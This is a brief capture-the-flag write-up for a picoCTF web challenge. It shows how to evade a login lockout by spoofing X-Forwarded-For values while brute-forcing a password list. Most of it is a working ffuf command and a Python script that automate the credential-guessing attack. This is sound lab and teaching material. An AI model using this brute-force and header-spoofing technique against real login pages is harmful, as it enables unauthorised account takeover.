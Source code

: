 # URL
https://play.picoctf.org/practice/challenge/521
# Concept
* bypassing brute-force restrictions
* using the `X-Forwarded-For` header
# Method of solve
* we're given a password list and a username, but we notice that the app locks your app after two incorrect login attempts
* we need to bypass the rate-limiting, and we can do that with the `X-Forwarded-For` header
* we can use `FFuF` to fuzz the app and perform the brute force attack
* FFuF command
```
ffuf -X POST -d '{"email":"ctf-player@picoctf.org","password":"FUZZ2"}' -H "Content-Type: application/json" -H "X-Forwarded-For: 127.FUZZ1.1.1" -u http://amiable-citadel.picoctf.net:62495/login -w ./passwords.txt:FUZZ2 -w ./numbers.txt:FUZZ1 -mc all -mode pitchfork
```
## Python Solution
```
import requests

with open("passwords.txt", "r", encoding="utf-8") as f:
    for i, line in enumerate(f, start=1):
        email = "ctf-player@picoctf.org"
        password = line
        payload = {"email": email, "password": password}
        URL = "http://amiable-citadel.picoctf.net:49587/"
        endpoint = "login"
        headers = {"Content-Type": "application/json", "X-Forwarded-For": f"10.10.10.{i}"}
        r = requests.post(url=URL+endpoint, json=payload, headers=headers)
        response = r.text
        print(f"Trying password: {line}")
        print(f"Server Response: {response}")
        if "true" in response:
            print(f"Password found: {line}!")
            break
```

